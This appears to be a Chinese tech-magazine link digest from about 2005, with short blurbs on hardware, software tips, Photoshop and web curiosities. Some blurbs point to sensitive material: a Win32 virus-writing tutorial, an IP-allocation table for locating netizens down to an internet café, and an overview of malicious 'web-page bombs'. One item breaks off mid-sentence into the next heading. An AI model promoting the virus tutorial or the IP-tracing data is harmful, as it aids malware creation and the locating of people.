一个体积仅100KB，显示界面如饼干大小的软件客户端拥有如此海量的后台内容支持，你相信吗？仅需输入几个字母或汉字便能享受到专业、精确的搜索服务。不仅如此，它还拥有在线自动更新功能，免除了频繁的升级和打补丁，使软件保证最新。最重要的是，它是完全免费的！

文章链接：http://www.pconline.com.cn/pcedu/softnews/cs/0501/531302.html

## 电脑的过去你必须了解！

你知道谁是世界上第一家电脑公司吗？你了解IBM、HP等著名IT公司的发家史吗？你听说过黑客文化的完整历史吗？IT虽然是如今发展最蓬勃的行业，但它却是最不注重历史的行业，很多喜欢电脑或是从事电脑的人们，却对IT的发展史知之甚少，伟人曾说过，不知道历史就意味着没有未来，所以叶平老师（曾写过许多轰动的电脑相关图书，比如《电脑史话》、《电脑风云》、《电脑科学传奇》等）的这个网站值得你细细品味，在这里你就像走进了电脑的大博物馆，那些生动的文字、动人的故事、珍贵的图片，会让你对IT发展史有一个无比崭新的认识。小编认为，它绝对是国内第一的电脑史话网站。

文章链接：http://www.cst21.com.cn/1/dncq.htm

## 怀念渐行渐远的Winamp时代

Winamp开创了MP3辉煌的时代，我们当中的不少人几乎认识MP3是从它开始的。但是，随着Winamp原开发团队的最后一名核心成员离开了AOL，没有了创立这套软件的天才们倾注他们的心血和灵魂，这个一度是装机的必备，无数人至爱的免费软件只能说已经处于“脑死亡”状态。或者你用着，或者即将抛弃，又或者你已经抛弃了Winamp的朋友，让我们一起来怀念渐行渐远的Winamp时代吧！

文章链接：http://www.pconline.com.cn/pcedu/specialtopic/050105Winamp/index.htm

## 带有Wifi的照相机

现在的相机还需要使用电缆或者读卡器才能连上电脑，这样的做法实在是有点太笨拙了。所以照相机需要有一种立刻见效的传输方式，无线网络方式传输是一个好的选择。看来，无线服务已经无所不入了……

文章链接：http://xchina.linux.net.cn/viewnews.php?NewsId=1783

## 投资2500元 自制投影机

eBay网站上什么都卖，现在竟然有人以约人民币160元的价格出售投影机制作指南。真正的投影机动辄上万元，而利用扫描仪和高架投影机（就是那种有高高的架子，课堂上老师用来放幻灯片的机器）制作的幻灯机成本不足2500元，看起来也不错！

文章链接：http://www.gb.tomshardware.com/howto/04q4/041231/index.html

## 汽车点烟器装进机箱

见过汽车里的点烟器吧，它是给在车中吸烟的人准备的。可是竟然有一些喜欢改装的人把这东西改装到了电脑机箱中！不过，建议你不要模仿：一来机箱内的各种线容易被烧到，二来吸烟有害健康，不值得推广。

文章链接：http://features.engadget.com/entry/4474704360413459/

## 使用DOS网络命令就这几招

在Windows“统治”的时代，对于菜鸟似乎DOS命令已经没有用武之地，可在高手的眼中，那黑白窗口的吸引力远远超过了Windows那“花花世界”。不管你是想做网管，还是想成为一名黑客，哪怕是你想成为一名排障高手，那本文都值得你一看，毕竟DOS命令的功能比Windows要强得多。

文章链接：http://www.pconline.com.cn/pcjob/system/microsoft/article/0412/518548.html

## 庖丁解卡！手把手教你深入认识显卡

显卡是备受关注的五大硬件之一，在整个电脑系统中占据着重要的地位。目前主要的电脑游戏或是电脑3D制作都需要一块强劲的显卡，由于和3D息息相关，所以现在的显卡也被称为3D显卡。不同的显卡性能上会有所不同，而这里说的性能就是3D模型渲染的速度快慢，而很多年前大家追求的2D性能已经很少被关注了。对于一块显卡，我们应该要了解些什么呢？相信你阅读完本篇就能找出答案。

文章链接：http://www.pconline.com.cn/diy/salon/cncd/study_gra/0501/529231.html

## 北京ADSL用户注意啦！免费大餐别忘了领

北京网通针对ADSL包月用户推出了宽带特区免费赠送活动，赠送的服务包括：视频花园所有服务（精彩大片非常多，看起来也很流畅）、Kuro——MP3的天堂、搜狐宽频娱乐、联众宽带会员服务、QQ礼包（QQ秀+贺卡）、搜狐网络游戏、瑞星杀毒+个人防火墙下载版。1MB用户可选择两个服务，强烈提醒北京使用ADSL的读者们别错过这份大餐！

文章链接：http://info.bbn.com.cn/bjnm/user/index.jsp

## 国人发布了Windows漏洞修复代码

微软一直在不停地发放补丁，但中国公民似乎一直没有补发补丁的机会。网上的一则消息宣称国人已经开了这个先例，但微软好像没有证实这一点。

文章链接：http://www.pconline.com.cn/pcedu/softnews/bingdu/0412/523848.html

## 把它装进闪盘，在Windows中轻松用Linux

以前我们介绍过光盘中的Linux，现在又有人做出了可以装在闪盘上的Linux，下载软件并将其放进闪盘（其实可以装在任何可移动设备上，比如：移动硬盘、存储卡、iPod等），然后接到电脑上，运行其中的qemu-win.bat，一个五脏俱全的Linux系统便运行起来了，而且根本不用配置网络就能上网，还可以通过热键（SHIFT + CTRL）随时切换回Windows。

文章链接：http://www.metropipe.net/ProductsPVPM.shtml

## 如何应对面试官的各种刁钻问题？

很多朋友已经打算过了春节就找份新工作，那么你需要在春节期间充电，以便应对马上到来的各种挑战，这篇文章为你提供了很多行业的一些问题，看过之后，让你受益匪浅。文章链接：http://www.pconline.com.cn/pcjob/rs/ms/0412/526501.html

## CD与DVD光盘质量的深入探讨

随着电脑的普及，CD与DVD刻录机也逐步走进了我们的日常生活，自己刻录CD或DVD已经不是新鲜事了！不过经常会有人遇到这样的情况：自己刻出的光盘，不能在朋友的光驱上读取，或者刻成的光盘自己的机器读起来很困难，或者说在VCD/DVD影碟机上出现马赛克等现象，这是为什么呢？是什么原因造成了上述的现象？不少人会认为，这是光盘的刻录质量问题，到底是不是呢？看完文章你就知道了！文章链接：http://hardware.mydrivers.com/pages/200501052153_27830.htm

## 这些鬼进程都是什么呀！

经常在论坛上看到有读者询问系统中某些进程到底是什么，属于哪个软件，是不是有害的，我们上期的美文报为大家介绍了一个介绍Windows和软件进程的文章，但它还是不够全面，如果你遇到某个进程实在查不到，不妨到这个网站搜一下，虽然它是英文的，但所收集的进程却是世界上数一数二的，而且解释相当详尽。文章链接：http://www.liutilities.com/products/wintaskspro/processlibrary/

## 奇异手机大搜集

人们刚刚适应了奇装异服，刚刚接受了五颜六色的头发，刚刚明白网络上诡异的语言，现在奇形怪状的手机又来了，他们有的是外形为功能服务，有的是功能为外形服务，不过总的来说，他们的外形设计无论如何都不能算是“正常的”。俗话说疯子都是天才，难道这些手机的设计者也是如此吗？好了，我们不管他们到底是不是真疯了，先来看看这些奇形怪状的手机吧！文章链接：http://www.pcpop.com/mobile/04/12/53393/1.shtml

## 网络电台、广播、电视网址大全

电台、广播、电视的网络化让不少人放弃了传统的接收方式，不少朋友可能自己也收集了一些这样的网址，不过个人的力量总是有限的！还好，现在已经有人为我们准备好了这样的大餐，有需要的朋友赶快把下面的地址收入收藏夹吧！文章链接：http://www.donews.com/donews/article/7/72359.html

## 你知道光驱是怎么工作的吗？

很多朋友都把光驱中的透镜当成了光头，很多朋友都奇怪，为什么只要按下光驱门上的小孔就能在关机的情况下拿出光盘，更有很人因为光驱橡皮条老化，打不开光驱门而郁闷。你了解你所用的光驱吗？如果你想自己动手解决一些光驱的小故障，本文不得不看。文章链接：http://www.pconline.com.cn/diy/evalue/evalue/storage/0412/521900.html

## 仅用IE地址栏就能发送邮件

IE能替你做什么事？除了浏览网页，访问FTP站点等常规工作外，还能干什么？还有一项更加常规的操作——发送Email。别笑话我，我的意思不是让你登录那些Web界面的邮件系统发邮件，而是只在IE地址栏输入一段代码，就能发送出一封邮件，你相信吗？文章链接：http://bink.nu/?ArticleID=3142

## Java程序员必读的32个问题

本期程序谷的Java又回来了，相信很多朋友都对它感兴趣了，毕竟Java应用越来越广，做个Java程序员在未来的日子里至少不会“没饭吃”。你是否觉得你的水平真的已经足够？来看看这32道变态级Java问题吧。文章链接：http://www.pconline.com.cn/pcjob/process/sun/experience/0412/521005.html

## 回首380年——计算机编年简史

记述一段历史，最终目的是将过去赋予全新的意义和价值，以供今人参考借鉴。电脑，作为一项改变了人类发展进程的发明，它的历史更是不同于一般的意义。虽然之前我们也看到不少电脑发展史之类的文章，然而不是纰漏连连，就是断章取意，因此，我们竭自己所能，在参考众多文集的基础上，编纂出了这篇目前最为详尽的计算机编年简史（从公元1623年至今），以供大家进一步了解计算机所走过的曲折历程。文章链接：http://hardware.mydrivers.com/pages/200412071628_75854.htm

## 让闲置电脑做点公益事业

春节就要到了，一般公司里的电脑就不用工作了。有否想到让公司的空闲电脑做一些对人类有贡献的事情呢？你可以考虑加入IBM发起的这个世界社区网格计划，让你的电脑的处理器能够用来计算药物、帮助治疗患病的孩子们。现在已经有5万余台电脑加入这个组织了，这和我们介绍过的天文运算有类似之处……文章链接：http://slashdot.org/articles/04/12/30/2320234.shtml?tid=136&tid=137

## 打造自己的静音PC主机

和许多朋友类似，我一直走的是电脑听音的路。一个创新的PCI128声卡和一对润宝4.1的多媒体音箱就开始了我的音乐里程。就像电脑在不断升级，设备也在不断的更换，直到现在的创新Audigy声卡+外置DAC+耳放+HD600耳机。这耳朵随着听音的深入，也越来越挑剔起来。音质的好坏让我开始耿耿于怀，但总不如夜阑人静听音的时候，旁边PC主机发出的噪音让我更加不满。改造是不可避免的了，之前也做过一些。2005年元旦放假期间，我在那里琢磨了几天，对家里的机器做了些手术，让我有将经验总结总结，以便供大家参考和研究的欲望。文章链接：http://www.audio100.com/2/21.htm

## 精致！拆解iPod Shuffle

现在的人就是喜欢暴力，iPod Shuffle刚刚上市就把它给拆了。不过这也好，让我们看看这款价值99美元的MP3内部到底有何不同呢？文章链接：http://www.8080.net/html/200501/p181601010.html

## 最佳的46款免费软件

既免费，又好用的软件是很多电脑爱好者的宝贝，于是就有国外朋友总结了最佳的46款免费软件，这其中既有我们熟知的Firefox，还有很多不为人所知的免费软件，如果你英文够好，一定要来这里看看，说不定就有你想要的免费软件。注：这里介绍的软件，有些已经不再推出新版本，有些仅适用于Windows 98。文章链接：http://www.techsupportalert.com/best_46_free_utilities.htm

## 疯了！计算器也“超频”

没想到计算器也能“超频”，国外电脑爱好者就是强，居然去研究如何将计算器超频，而且超频后，速度提升最大的居然是之前的2～3倍，你有没有兴趣看看它是如何做的呢？文章链接：http://richfiles.solarbotics.net/Turbo.html

## 华丽？恶搞？好吃？2004年十大创意DVD包装

送巧克力的DVD包装，马桶型的DVD包装，内藏饰品的DVD包装，虽说我们可能买不到，但看看总没意见吧，来看看这些奇特的DVD包装吧——“强”就一个字。文章链接：http://www.pcpop.com/dvd/05/1/58847/1.shtml

## 网页也能藏炸弹 小心被炸！

网页炸弹是指某些别有用心的人在网页中加入恶意代码，使浏览者在浏览该网页时电脑出现重启、死机等故障，甚至还会格式化你的硬盘。这里详细解说了目前最流行的十大经典网页炸弹，并提供了防范的方法。文章链接：http://tech.sina.com.cn/s/2004-12-15/1040477045.shtml

## 让你明白什么是ERP

ERP(Enterprise Resource Planning)企业资源计划系统，是指建立在信息技术基础上，以系统化的管理思想为企业决策层及员工提供决策运行手段的管理平台。这样的解释似乎虚无缥缈，让我们来看一个生动的例子……文章链接：http://bbs.mbahome.com/dispbbs.asp?BoardID=47&ID=24571&page=1

## 工薪族创业3个误区

最近听了一句话，深有同感，这种现象也很普遍：“很多人容易把自己的兴趣误认为是天赋。”创业也是如此，一旦陷入了某个误区，那可就是耽误前程的大事。不管你将来打算做什么，先听听前人的劝告还是必要的。文章链接：http://www.donews.net/soho/archive/2005/01/19/247618.aspx

## 2004年最棒的Flash MTV

2004年虽然已经过去，但许许多多东西依然让人难以忘怀，让人不断想起，那么2004年最流行的Flash MTV是什么呢？这里会告诉你答案。文章链接：http://www.it.com.cn/f/edu/051/21/71569.htm

## 谁把你的系统变慢了

我们在使用Windows系统时，常常会发现随着系统使用时间的增加，系统速度变得越来越慢（这种现象在Windows 2000/XP中特别明显），简直让人无法忍受！究其原因，无非是软件、硬件、病毒，参考本文对这三方面一一排除，相信你会尽快找出问题所在，恢复系统的极速狂奔！文章链接：http://news.onlinedown.net/info/10422-1.htm

## Office大师珍藏的100个秘技

你可能每天都在和微软的Office打交道，但是你真的用好它们了吗？你知道它们背后隐藏的众多秘技吗？这个网站为大家奉献了100个关于Office的超级技巧，学会它们，用好它们，你的Office水平会有一个全新的提高。文章链接：http://www.zdnet.com.cn/techupdate/apply/collaboration/story/0,3800030473,39333299,00.htm 文章链接：http://www.zdnet.com.cn/techupdate/apply/collaboration/story/0,3800030473,39333300,00.htm

## 今天，你的系统换肤了吗？

文章链接:http://publish.it168.com/2005/0118/20050118501601.shtml?cchannel=22

## 用电脑最忌讳的18个小动作！

你用电脑多久了，3年？5年？用了这么久，你可知道用电脑最忌讳哪些动作吗？看似无所谓的小动作，对电脑可能是致命伤！

文章链接:http://www.donews.net/hushu/archive/2005/01/19/247853.aspx

## 菜鸟们来吧！做个超COOL桌面月历

漂亮的MM照片组合成当月的月历，把它做为桌面壁纸，既能养眼，还有一定实用价值，但是这样的壁纸似乎并不常见，没关系，只要你已经会一些基本的Photoshop操作，然后跟着这里的教程就能快速制作出赏心悦目的月历壁纸来！

文章链接:http://www.photops.com/Article_Show.asp?ArticleID=1014

## IE不成了 Outlook Express还会远吗？

前段时间“火狐”(Firefox)刚刚从IE那里抢得大批用户，现在Mozilla又推出了代号为“雷鸟”(Thunderbird)的电子邮件客户端软件，它到底凭什么来和Outlook Express一挣高下呢？前有“狐”，后有“鸟”，微软最近的日子不好过呀。还等什么？还不快去看看“雷鸟”(Thunderbird)有何特别之处。

文章链接:http://publish.it168.com/2004/1209/20041209000701.shtml?cChannel=22&cPositionCode=649

## 轻松一下，学学扑克牌的各种终极玩法

经常在电影中看到赌侠、赌圣们令人眼花缭乱地“玩弄”扑克牌，但说实话，那里面有不少特技的成份，而我们这里要介绍的扑克牌玩法更实际，只要你有耐心，就能用扑克牌变幻出宏伟的建筑物，比如：教堂、体育场等！不信？那就来这里看看吧，如果想学，这个网站的主人专门出了一本书，并且在亚马逊网上书店有售。而且如果你再买一本教大家用美元折纸的书，还会得到更多优惠。

文章链接:http://www.cardstacker.com/gallery.html

## 真正将Hotmail邮箱升级到250MB的方法

现在不少人的Hotmail邮箱还是2MB的，用起来总显得捉襟见肘。按照这里介绍的方法，可以让你的信箱立即变成25MB，几小时后（最多一周后），你的信箱空间就升为250MB了！

文章链接:http://www.dvhardware.net/article3833.html

## 最精彩的Firefox插件

现在不少朋友已经抛弃IE，改用Firefox了。Firefox有很多精彩的插件供你选用，这里列出最精彩的50个插件，供你随便挑选。

文章链接:http://www.mozdev.org/logs/top50.html

## 浅灰PS素描完整版

把MM漂亮的彩照，借助Photoshop的强大功能，轻松变成有素描风格的图画，别有一番情趣。

文章链接:http://www.donews.net/netsurfe/archive/2005/01/14/240546.aspx

## 重装系统≠数据丢失

很多菜鸟在系统出现问题后，就立即重装系统。这样做固然是百试百爽，可是同时也带来了一个问题：重装之后大量数据丢失了！“我的文档”、输入法词库、电子邮件、收藏夹……难道重装系统真的就意味着大量数据的丢失吗？当然不是，请参考本文的方法对重要的数据进行备份。

文章链接:http://news.onlinedown.net/info/10088-1.htm

## 谁说这个文件不能删

程序正在使用、已被系统加载，还有其他各种奇奇怪怪的问题，都会导致我们无法删除某些文件。很着急？急也没用，还是静下心来，分析一下无法删除的原因。是因为程序占用，还是因为磁盘出现了问题？

文章链接:http://www.pconline.com.cn/pcedu/teach/empolder/system/0501/533783.html

## 有了故障就恢复

Windows系统的脆弱一直是大家比较头痛的问题，系统又无法启动了？装了多系统之后我的Windows XP哪儿去了？一些小小的“折腾”都可能使我们的系统出故障。防患于未然，在出问题之前就学习一下“故障恢复控制台”的使用吧。

文章链接:http://www.pconline.com.cn/pcjob/system/microsoft/article/0412/519161.html

## 病毒编写也有教程

无论是菜鸟还是高手，都曾经受过病毒的侵害。有些朋友甚至因为小小的病毒而丢失了多年珍藏的数据（竟然没有备份），追悔莫及的同时不禁谈毒色变。病毒究竟是怎么编写的呢？请看国外的高手Billy Belceb写的《Win32病毒编写教程》，看看令我们抓狂的病毒究竟是如何诞生的……

文章链接:http://bbs.pediy.com/showthread.php?s=&threadid=1389

## 你真的了解DVD电影吗？

多角度、CC字幕，小白兔、幕后花絮、IFPI片基，你以为我这是在说什么？没有这些东东的DVD怎么可以买呢？相信很多人连最起码的“小白兔”都不知道吧，现在这个技术已经应用到越来越多的电影中，包括《黑客帝国》、《少林足球》、《Van Helsing》等。

文章链接:http://www.pcpop.com/dvd/05/1/60401/1.shtml

## 买iPod shuffle前，你准备好了吗？

iPod shuffle这个一出现就被美国用户抢购的东东，吸引力真的很大！在中国它是否值得我们购买呢？小声告诉你，在买之前你一定要做好心理准备。

文章链接:http://www.pcpop.com/mp3/05/1/59995/1.shtml

## 细数DIY配件市场上不为人熟悉的好货

一些世界知名的大品牌往往深受消费者欢迎，就算一些与该品牌毫无关系的产品一旦贴上该品牌的标志，人们也会爱屋及乌。不过，由于世界上知名品牌实在太多了，人们不可能对它们一一认识，所以有些世界知名品牌的产品有时候被人误认为是杂牌产品。

文章链接:http://publish.it168.com/2005/0110/20050110007001.shtml?cChannel=02

## 透过DC看世界 最漂亮城市夜景样片赏析

通过一个城市的夜晚景色，我们可以了解到很多。繁华、浪漫、热情、肃穆……每个城市都有自己的表情。也许通过我们手中的数码相机记录下这些之后，在分享夜景拍摄技巧的同时，还可以感悟一下世界各大都市夜晚的别样风情吧。

文章链接:http://www.pcpop.com/dc/05/1/60455/1.shtml

## 了解MP3的“芯”

现在，很多朋友已经购买了MP3播放器，而且也对MP3有所了解了，但决定MP3音质表现的MP3解码芯片你是否了解呢？目前市场上主流的MP3解码芯片有多种，但Philips、Sigmatel与Telchips三大家族则占领大半江山……

文章链接:http://www.imp3.net/article/article.php?articleid=2259

## 提高DVD刻录成功率

随着DVD刻录机的价格不断下降，越来越多的用户选择了这种大容量的数据存储方式。不过大家很快发现，和以前CD刻录相比，DVD刻录的成功率却不高，“飞盘”（即刻录失败）成了DVD刻录中的“家常便饭”。笔者这里说说自己的使用经验，希望能帮助大家尽量避免DVD刻录失败！

文章链接:http://www.cdbest.net/2003/ReadNews.asp?NewsID=3593

## 第五期

## QQ的语音质量为什么变好了？

从QQ 2004 Beta 3开始，大家已经可以明显地感觉到QQ的语音通话质量有很大提高，而且还加入了多人音频的功能。看看QQ的版权信息，发现多出了使用GIPS语音引擎的声明，那么它到底是何方神圣呢？让我们一起来揭开这个秘密。

文章链接:http://www.enet.com.cn/eschool/inforcenter/A20050127386535_1.html

## 听说过、没见过的操作系统

大家经常听说的操作系统就是Windows、Linux和Unix吧，其实Linux也分很多版本，而且还有如Mac OS、FreeBSD等不太常见的操作系统，想不想看看它们都长什么样？想不想了解一下这些操作系统是如何安装的？

文章链接:http://shots.osdir.com/

## 漂亮的表情你来自哪里？

很多QQ网友都奇怪，为什么别人总有新的QQ表情，而我都没有呢？这些表情是从哪里来的呢？到下面的网页中可以找到很多。

文章链接:http://im.qq.com/cgi-bin/special/ykface/face_sort_in2

## 强！水果是画出来的

Photoshop是一款图像处理软件，用它画图的事你就没听说了吧，来看看高人是如何用Photoshop画出一个草莓的吧。

文章链接:http://www.pconline.com.cn/pcedu/sj/pm/photoshop/0501/541923.html

## 谁说新版驱动一定好？我们评测给你看！

很多朋友喜欢用最新版的硬件驱动程序，但专家们早就告诫大家，最新≠最好，不信的话，来看看国外著名硬件网站对nVIDIA最近连续推出的几版驱动进行的全面测试，实践出真知，它不仅印证了专家的说法，看过后你还能确切地知道到底哪一款驱动是最好的！

文章链接:http://www.pcpop.com/vga/05/1/60163/1.shtml

## 2元钱做个无线网信号增强器

剪刀一把、美工刀一把、普通电工胶带若干、空易拉罐一只，这几样东东可以做成什么？做个无线网信号增强器？不是在做梦吧。现在一些价格低廉的低端AP信号很弱，离得稍微有点远，隔的墙稍微有点多，信号就会大大损失，如何增强信号就成了一个大问题。如果你也有这样的苦恼，快来看看高手是如何只用2块钱解决问题的吧。

文章链接:http://www.pcpop.com/nb/05/1/60710/1.shtml

## 管好你的文件

硬盘和其他存储介质的容量提升速度早已经超出了摩尔定律预计的范围，而宽带技术的普及也为我们迅速喂饱这些大得惊人的硬盘创造了可能。动辄几十G的数据量在以前可是天文数字，越来越多的文件被保存到我们的硬盘中，这时问题也就来了——怎么管好你的文件？这篇文章从文件的保存、批量重命名、文件的搜索等方面详细介绍了文件管理的方法。

文章链接:http://www.enet.com.cn/eschool/inforcenter/A20040816334343.html

## 有了手机还要键盘鼠标干吗？

躺在沙发上，欣赏着电脑中的音乐，可是要切换歌曲时可就麻烦了，还要跑过到电脑前面去切换。当然那是以前，现在你只要有一款索爱的P800手机，或是系统为Symbian OS6.0的手机(如诺基亚3650/6600/7650等)，就能远程控制电脑了。

文章链接:http://www.enet.com.cn/eschool/inforcenter/A20050127386350.html

## PQ 犯错 Ghost 来弥补

PartitionMagic(以下简称PQ)是一款优秀的硬盘分区管理软件，但再优秀的软件如果使用不当，就会造成意想不到的后果。比如本文的作者就是对硬盘进行了跨分区的空间调整而导致了分区错误，正在一筹莫展时，Ghost 却给他带来了一丝曙光……

文章链接:http://www.enet.com.cn/eschool/inforcenter/A20040830338470.html

## nslookup 工具的详尽使用方法

看了本期《铁面签证官——DNS》一文后，你会发现nslookup是一个有用的工具。不过，限于篇幅原因，我们不能详细介绍它的更多用法。在下面的网址你可以看到详尽的介绍文章。

文章链接:http://www.pconline.com.cn/pcedu/soft/wl/assist/0307/193330.html

## 2004年你还记得哪些歌？

已经过去的2004年，你还记得哪些歌曲吗？十大金曲、十大网络歌曲、十大男歌手、十大女歌手、十大新人……这十大XX并不是某某机构选出来的，它完全是百度通过搜索关键词统计出的结果，这可是歌迷们用自己的手亲自选出来的年度金曲榜单哦，说不定你还贡献过一票呢。

文章链接:http://list.mp3.baidu.com/topso/list/hot0105.html

## 全国 IP 地址分配大全

当你查到某个网友的IP地址的时候，你可以很容易地利用工具查到它所在的城市。但是你能找到它的具体位置吗？具体是哪家公司？那个网吧？这也可以知道？是的，只要你下载下面这个IP 地址分配表就行了。不过稍显遗憾的是，这个数据库是大约2年前的。即使这样，也还是有收藏价值的！

文章链接:http://www.newhua.com/cfan/200505/IP 地址表.rar

## 现在博客中最新什么内容？

你能在自己生活的城市里找到10个属于自己的地方吗？它们并不一定是名胜古迹，或许是一个餐厅，一个酒吧，一个咖啡馆，一个公园，又或者是一条林阴小道。是那些让自己感觉最舒服的地方，是三两好友谈天说地的地方，是心烦意乱之时独自停留的地方。现在，只要在你自己的Blog 上添加一段代码，就可以分享来自全世界各地人们最中意的10个地方。

文章链接:http://blog.timetide.net/archives/2005/01/21/20050121224101.php

## 菜鸟总动员 看图学装 Windows

安装 Windows 对于大多数菜鸟来说，总感觉有些犯怵，其实它并不困难，只要试一次你就会举一反三，从此不用再求助高人帮忙。如果还是不放心，请下载这个《操作系统》安装过程详细图解 2005 吧，相信在它的帮助下，你很快就能熟练安装 Windows 了。

## 今年，我要十九种不良生活习惯！

你在 2005 年有什么远大的生活目标？如果暂时没有，就从自己的不良生活习惯开始吧！别告诉我这里的很多坏习惯你都没有，这里的很多坏习惯是我第一次听说的，比如热水淋浴时间过长、空腹吃糖等等，最为惊奇的是：就连留胡子也是不利于身体健康的！

文章链接:http://www.cathome01.com/archives/2005/01/post_371.html

## QQ 减肥记

不知道你发现了没有，随着功能的增加，我们喜欢用的QQ 已经发福了，企鹅先生的体重已经从原来的2MB ~ 3MB 增加到了现在的60MB 以上，占用的内存资源也超过了20MB，启动QQ 的速度也越来越慢了。但实际上很多功能是我们并不常用的，我们有没有办法给它减肥呢？文章链接:http://www.9orange.com/cgi-bin/i8_user_page.cgi?access_code=2005011212如果你还想精简得更加透彻，就在看看下面的文章。

文章链接:http://article.pchome.net/2004/08/12/24035.htm

## 2004 年，软件大事记

2004 年年底到2005 年年初，媒体和网上流传了太多的2004 年回顾，但其中关于软件方面的却少得可怜，下面这个网站提供的2004 年软件大回顾相当不错，虽然只是事件的罗列，缺少总结性的评述，但确实能让大家有个清晰的脉络，基本上软件业所发生的著名事件都有介绍。

文章链接:http://www.thinkjam.org/zoptuno/archives/2004/12/2004eaeaee.html

## 值得珍藏的机器猫

小时候看电视(动画片)时就特别喜欢机器猫，它那胖乎乎的猫脸和无所不能的万能口袋，时隔多年，依然不能忘怀。珍惜你童年的回忆，把机器猫永远留在你的桌面吧！

文章链接:http://www.enet.com.cn/eschool/inforcenter/A20040520310227.html

## 令狐冲笑傲三层交换

这是一篇由华为中研所的研发人员写的关于路由、HUB、交换机的文章，这三样网络设备常常令初学者摸不着头脑，不知它们的区别、作用是什么，而本文通过《笑傲江湖》令狐冲的视角与故事让你在欢笑中不知不觉深刻认识了这些网络设备的功效与区别，强烈推荐！

文章链接:http://www.thinkjam.org/zoptuno/archives/2004/09/aeciecaeaeeaec.html

## 珍藏！PhotoShop 从 1.0 ~ CS

当你在使用PhotoShop CS 时，是否想过它“出生”时(1.0)的样子？它每一个版本到底如何呢？这款著名的图像处理软件在1990年推出，到今天已经经历了大约15年。而这个网页有PhotoShop所有版本的“关于”画面，让你充分领略它的历史。同时，这里面吸引人的还有每一版本中隐藏的彩蛋，特别是还有彩蛋中的彩蛋，非常有趣！（注：找出彩蛋的方法：打开PhotoShop，按住Ctrl + Shift，键不放，按住鼠标左键不放，点击“帮助→关于PhotoShop”，彩蛋即刻现身。）

文章链接:http://www.photoshopcn.com/article.php?action=print&aid=521

## MySQL 架设其实很简单

目前被广泛采用的Web 服务器大致有两大体系:IIS 和Apache。而Apache更是由于其免费和开放源代码的特性而受到了广大服务器爱好者的支持。Apache 体系的经典组合便是Apache + PHP + MySQL，和Apache一样，MySQL 也是开放和免费的，并且被公认为最适于支持Web 程序的数据库系统。开源软件有一个特点——界面不友好且配置困难，虽然MySQL 的性能极其优秀，但他配置起来实在是不太容易，有没有那么一篇完整的技术文档，能够一步步教会我们MySQL的安装乃至配置呢？

文章链接:http://blog.csdn.net/javamxj/archive/2005/01/13/251861.aspx

## 快！还要更快！！

Windows XP 的启动速度一直是MS爱好者永远的痛，如果Windows 能有Window 98那样的启动速度，那些发烧级用户就不会每天再热衷于XP 启动时的圈数了。本文从启动过程、主板设置等来分析Windows XP速度慢的原因。

文章链接:http://www.enet.com.cn/eschool/inforcenter/A20050128386845.html

## 别让病毒侵吞你的文件

病毒，无孔不入。即使安装了最新版的杀毒软件，也有机会感染病毒。几乎人人都有中毒的经历，可是中毒后，你是否让病毒就这样侵吞了你的文件？对于危机四伏的已中毒系统，你是否想过怎么恢复被病毒破坏的数据？这篇文章能给你答案。

文章链接:http://www.enet.com.cn/eschool/inforcenter/A20040809332070.html

## 你生日那天《时代周刊》的封面是什么？

《时代周刊》是世界著名的杂志，想不想知道你生日那天它的封面是什么样的？那天世界上发生了什么样的大事？这个网页可以让你轻松找到你生日那天的《时代周刊》封面，从1923 年一直到2005 年。

文章链接:http://www.time.com/time/coversearch

## 快来搜吧！一不搜遍天下 RSS 和论坛

信息爆炸，Blog 流行，论坛大行其道，这就是如今的Internet，资讯多了，要找到自己需要的却不那么容易，虽然我们有Google、百度等强力搜索引擎的支援，但它们对于Blog 和论坛的搜索能力有限，我们特地为各位读者找到了一些这方面的搜索专家。如果你对RSS 还不太清楚，强力推荐看一下本期的《玩转RSS 天下信息随心看》。

- RSS 搜索引擎:http://www.kantianxia.com、http://www.feedsearch.net、http://www.feedss.com/、http://www.8fang.net
- 论坛搜索引擎:http://www.teemin.com

## 防垃圾邮件又一招：把你的 E-mail 地址做成图片

网上有一群这样的人，他们利用软件或其他方法快速搜集论坛、网站上的电子邮件地址，然后疯狂地将垃圾邮件灌到这些信箱中。这个网站则为你提供了一种防范方法，那就是自动生成一个带有你E-mail地址的漂亮Banner（目前只提供Hotmail、Gmail、Yahoo、MSN等国外免费邮箱），这样你在论坛发布自己E-mail时，只要把它放到贴子中即可，既美观，又能防垃圾邮件。

文章链接:http://www.nhacks.com/email/index.php

## 不到3 美元 苹果本本抱回家

大家都知道，PowerBook是苹果出品的笔记本。居然有国外网友仿制了PowerBook制作了一款名为P-P-P PowerBook的笔记本。该笔记本制作精良，不仅保留了苹果精美的外## CS 高手的设置之谜
世界上知名的CS高手们在游戏中的设置是什么呢？他们采用的分辨率是多少？他们的鼠标灵敏度是多少？用的是什么鼠标？用的是什么鼠标垫？垂直同步是开是关（如果不知道什么是“垂直同步”，那就快来找出上期杂志重温一下吧）？准星大小及颜色是如何设置？这些问题的答案还是留给你去看吧。
文件链接:http://game.yesky.com/Gameall/73191194871660544/20050217/1911737.shtml

## 让面试官无语的好办法
这是一道微软面试中出现的经典试题，本文记录了整个面试过程。即使你曾经看过这个题目，也请你重温一下。有时候，我们所需要的并不是问题的正确答案，而是过程，一个思维缜密、合理的推理过程，因为世界上不是每件事都是黑白分明的。按照Cornel个人理解，这道题作为律师资格考试的初试题倒是不错。
文章链接:http://www.donews.net/Aldem/archive/2005/02/22/285307.aspx

## 服务器托管全攻略
网络的流行也让很多朋友开始尝试制作主页，可是“寄人篱下”的感觉可不好，于是越来越多的人想试试“服务器托管”，这样既可以做虚拟主机挣钱，又可以不受空间容量的限制。怎么样你是不是也心动了？快和志同道合的朋友一起行动吧！不过在行动前这里可以推荐你看看小编们只能用“真的很不错”来形容的两篇文章。
文章链接:http://www.pconline.com.cn/server/apply/0502/549894.html
http://www.pconline.com.cn/server/apply/0407/421663.html

## 玩转DOOM3 原来如此简单
自从DOOM3出来后，很多高配置电脑的朋友已经开始体验它了，可是你知道如何在配置较低的电脑上玩DOOM3吗？想知道在你那个老Windows 98上如何运行这个新时代的游戏吗？游戏中的所有设置你都真的了解了吗？看看国外高人是如何做的吧。
文章链接:http://www.tweakguides.com/Doom3_1.html

## 局域网常见网络故障及排除策略
局域网使用虽然简单，但也容易出现各种莫名其妙的故障，而且不是每种故障都会有前人告诉你答案，这时，解决问题的思路就很重要了。
文章链接:http://www.chinaitlab.com/www/news/article_show.asp?id=29515

## 漂亮夜景是这样拍出来的
